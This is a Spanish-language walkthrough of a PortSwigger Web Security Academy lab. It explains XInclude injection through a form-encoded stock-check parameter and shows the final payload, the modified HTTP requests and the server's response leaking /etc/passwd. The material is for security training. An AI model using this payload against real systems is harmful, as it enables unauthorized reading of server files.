

# PortSwigger Web Security Academy — XXE Lab 7

# Exploiting XInclude to retrieve files

**Categoría:** XXE  
**Laboratorio:** Lab 7 de XXE  
**Nombre:** Exploiting XInclude to retrieve files  
**URL:** https://portswigger.net/web-security/xxe/lab-xinclude-attack

---

## 1. Enunciado del laboratorio

Este laboratorio tiene una función de **Check stock** que incrusta la entrada del usuario dentro de un documento XML del lado del servidor que posteriormente es analizado.

Debido a que no controlas el documento XML completo, no puedes definir una DTD para lanzar un ataque XXE clásico.

Para resolver el laboratorio, tienes que inyectar una sentencia **XInclude** para recuperar el contenido del archivo:

```text
/etc/passwd
```

---

## 2. Captura inicial


---

# 3. Idea principal del laboratorio

Este laboratorio enseña una diferencia muy importante:

```text
No siempre controlas el XML completo.
```

En los laboratorios anteriores de XXE normalmente enviabas un XML completo, por ejemplo:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

En ese caso podías insertar un `DOCTYPE` y una entidad externa.

Pero aquí la request original no parece XML. La request usa:

```http
Content-Type: application/x-www-form-urlencoded
```

y envía:

```text
productId=1&storeId=1
```

A simple vista parece un formulario normal.

Pero el backend probablemente hace algo parecido a esto:

```text
recibe productId y storeId
↓
construye un documento XML internamente
↓
parsea ese XML
↓
usa el resultado para consultar stock
```

Ejemplo conceptual:

```xml
<stockCheck>
   <productId>1</productId>
   <storeId>1</storeId>
</stockCheck>
```

La vulnerabilidad no está en que tú envíes XML directamente.  
La vulnerabilidad está en que el backend mete tu input dentro de XML y luego lo analiza con un parser que procesa XInclude.

---

# 4. Por qué no sirve XXE clásico aquí

En un XXE clásico usarías algo como:

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```

y luego:

```xml
<productId>&xxe;</productId>
```

Pero eso requiere controlar el documento XML completo, especialmente la parte inicial del documento.

El `DOCTYPE` debe ir al principio, antes del elemento raíz:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

No puedes meter un `DOCTYPE` dentro de un nodo normal:

```xml
<productId>
  <!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
</productId>
```

Eso no es válido.

`DOCTYPE` y `ENTITY` no son etiquetas normales. Son declaraciones especiales del parser XML.

---

# 5. Entonces usamos XInclude

XInclude es una funcionalidad estándar de XML que permite incluir contenido externo dentro de un documento XML.

La idea es parecida a:

```text
include()
```

o:

```text
import
```

pero en XML.

Payload principal:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

En una sola línea:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

---

# 6. Explicación detallada del payload

## 6.1 El contenedor `<foo>`

```xml
<foo>
```

`foo` no tiene nada mágico. Es solo una etiqueta XML normal.

Podría llamarse:

```xml
<a>
```

o:

```xml
<data>
```

o:

```xml
<x>
```

Se usa como contenedor para poder declarar el namespace de XInclude.

---

## 6.2 El atributo `xmlns:xi`

```xml
xmlns:xi="http://www.w3.org/2001/XInclude"
```

Esto es un atributo, no una etiqueta.

En XML una etiqueta tiene esta forma:

```xml
<nombre atributo="valor">
```

Aquí:

```text
foo
```

es el nombre de la etiqueta, y:

```text
xmlns:xi="http://www.w3.org/2001/XInclude"
```

es un atributo.

`xmlns` significa **XML namespace**.

Sirve para decir:

```text
El prefijo xi pertenece al estándar XInclude.
```

Por eso después el parser entiende que:

```xml
<xi:include>
```

no es una etiqueta inventada, sino una instrucción XInclude.

---

## 6.3 La URL del namespace no se descarga

Esto confunde mucho:

```text
http://www.w3.org/2001/XInclude
```

Normalmente el parser no visita esa URL.  
No significa: “descarga algo de w3.org”.

Es un identificador único del estándar XInclude.

XML usa URLs como identificadores porque son globalmente únicas.

---

## 6.4 La etiqueta `<xi:include>`

```xml
<xi:include parse="text" href="file:///etc/passwd"/>
```

Esta es la instrucción que hace la inclusión.

Le dice al parser:

```text
Incluye aquí el contenido del recurso indicado en href.
```

---

## 6.5 `href="file:///etc/passwd"`

```xml
href="file:///etc/passwd"
```

Indica el recurso que queremos leer.

`file://` significa:

```text
lee un archivo local del servidor
```

El archivo objetivo es:

```text
/etc/passwd
```

---

## 6.6 `parse="text"`

```xml
parse="text"
```

Esto es clave.

`/etc/passwd` no es XML. Es texto plano.

Si no usas `parse="text"`, el parser podría intentar interpretar `/etc/passwd` como XML y fallar.

Con:

```xml
parse="text"
```

le dices:

```text
Incluye el contenido como texto normal.
```

---

# 7. Por qué XInclude funciona aunque no controlemos el XML completo

XInclude se expresa mediante etiquetas XML normales.

Esto:

```xml
<xi:include .../>
```

sí puede ir dentro de un nodo como:

```xml
<productId>
```

Entonces, si la aplicación genera internamente esto:

```xml
<stockCheck>
  <productId>INPUT_USUARIO</productId>
  <storeId>1</storeId>
</stockCheck>
```

y tú mandas como `INPUT_USUARIO`:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

el XML final puede quedar así:

```xml
<stockCheck>
  <productId>
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/>
    </foo>
  </productId>
  <storeId>1</storeId>
</stockCheck>
```

Esto es XML válido.

Después el parser procesa XInclude y carga el archivo.

---

# 8. Request original capturada

Al pulsar **Check stock**, capturamos esta request:

```http
POST /product/stock HTTP/2
Host: 0af800a303b0781181490735005d001b.web-security-academy.net
Cookie: session=2teWs7rwZguTBv96t93PPajrcQtkvagf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af800a303b0781181490735005d001b.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0af800a303b0781181490735005d001b.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

productId=1&storeId=1
```

Lo importante es:

```http
Content-Type: application/x-www-form-urlencoded
```

y el body:

```text
productId=1&storeId=1
```

No parece XML, pero el backend lo convierte en XML internamente.

---

# 9. Request modificada con XInclude

Sustituimos el valor de `productId` por el payload:

```http
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

Request completa:

```http
POST /product/stock HTTP/2
Host: 0af800a303b0781181490735005d001b.web-security-academy.net
Cookie: session=2teWs7rwZguTBv96t93PPajrcQtkvagf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af800a303b0781181490735005d001b.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 126
Origin: https://0af800a303b0781181490735005d001b.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

---

# 10. Qué ocurre internamente

El backend probablemente genera:

```xml
<stockCheck>
  <productId>
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/>
    </foo>
  </productId>
  <storeId>1</storeId>
</stockCheck>
```

El parser procesa:

```xml
<xi:include parse="text" href="file:///etc/passwd"/>
```

y lo reemplaza por el contenido de `/etc/passwd`.

Internamente queda algo como:

```xml
<productId>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
</productId>
```

Luego la aplicación intenta interpretar eso como un `productId`.

Como no es un número válido, devuelve:

```text
Invalid product ID:
```

seguido del contenido del archivo.

---

# 11. Respuesta obtenida

La respuesta contiene `/etc/passwd`:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2338

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news
...
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
..."
```

Esto confirma que el parser leyó correctamente:

```text
/etc/passwd
```

---

# 12. Qué es `/etc/passwd`

`/etc/passwd` es un archivo clásico de Linux que contiene información de usuarios del sistema.

Formato:

```text
usuario:x:UID:GID:comentario:home:shell
```

Ejemplo:

```text
root:x:0:0:root:/root:/bin/bash
```

Campos:

```text
root        usuario
x           placeholder de password
0           UID
0           GID
root        comentario
/root       home directory
/bin/bash   shell
```

En el laboratorio aparecen usuarios como:

```text
root
www-data
peter
carlos
user
academy
```

---

# 13. Por qué el laboratorio queda resuelto

El objetivo era:

```text
usar XInclude para recuperar /etc/passwd
```

La respuesta contiene `/etc/passwd`.

Por tanto, el laboratorio queda resuelto.



---

# 14. Cadena completa del ataque

```text
1. Pulsamos Check stock.
2. El navegador envía productId=1&storeId=1.
3. La request es x-www-form-urlencoded, no XML.
4. El backend construye XML internamente.
5. Inyectamos un nodo XML dentro de productId.
6. Ese nodo declara el namespace XInclude.
7. Insertamos xi:include apuntando a file:///etc/passwd.
8. El parser procesa XInclude.
9. El parser lee /etc/passwd como texto.
10. El contenido se incrusta dentro del XML.
11. La aplicación intenta usarlo como productId.
12. Falla.
13. Devuelve Invalid product ID con el contenido del archivo.
14. Lab resuelto.
```

---

# 15. Diferencia definitiva entre XXE clásico y XInclude

## XXE clásico

Necesita controlar:

```xml
<!DOCTYPE>
<!ENTITY>
```

Ejemplo:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

y luego usar:

```xml
&xxe;
```

---

## XInclude

No necesita DTD.

No necesita `ENTITY`.

No necesita controlar el XML completo.

Solo necesita que puedas inyectar un fragmento XML que el parser procese:

```xml
<xi:include parse="text" href="file:///etc/passwd"/>
```

---

# 16. Frase clave

```text
XInclude permite explotar parsers XML incluso cuando no puedes definir una DTD ni controlar el documento XML completo.
```

---

# 17. Payload final

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Request final:

```text
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

